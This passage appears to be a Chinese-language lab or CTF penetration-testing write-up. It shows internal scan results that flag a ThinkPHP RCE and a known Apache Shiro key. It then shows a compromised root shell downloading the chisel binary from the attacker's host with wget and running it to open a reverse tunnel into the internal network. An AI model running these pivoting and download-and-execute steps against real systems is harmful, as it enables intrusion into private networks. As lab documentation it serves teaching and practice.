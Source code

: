 ```plaintext
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[*] WebTitle http://192.168.100.2      code:200 len:931    title:None
[*] WebTitle http://192.168.100.3:8080 code:302 len:0      title:None 跳转 url: http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2
[*] WebTitle http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2 code:200 len:2608   title:Login Page
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```

## Net 192.168.100.0/24

```plaintext
Thinkphp - 192.168.100.2
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1

Shiro - 192.168.100.3
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```

## Shiro 端口转发

由于需要访问内网的 Thinkphp 服务，就需要搭建代理隧道

```shell title="Kali"
┌──(randark ㉿ kali)-[~/tools/chisel-v1.9.1]
└─$ ./chisel_1.9.1_linux_amd64 server -p 1331 --reverse &
[1] 1846492
2024/07/25 11:18:01 server: Reverse tunnelling enabled
2024/07/25 11:18:01 server: Fingerprint CG5EKTNIsW4ByFzEmmK2qMxfuLVm6Cegnhee/wABfqk=
2024/07/25 11:18:01 server: Listening on http://0.0.0.0:1331
```

```shell title="Shiro"
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:17:13--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel_1.9.1_linux_amd64’

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.1s

2024-07-25 03:17:13 (78.8 MB/s) - ‘chisel_1.9.1_linux_amd64’ saved [8654848/8654848]

(remote) root@31b77ed217da:/tmp# chmod +x chisel_1.9.1_linux_amd64
(remote) root@31b77ed217da:/tmp# ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10001:192.168.100.2:80 &
[1] 216
2024/07/25 03:20:24 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:20:24 client: Connected (Latency 1.096734ms)
```
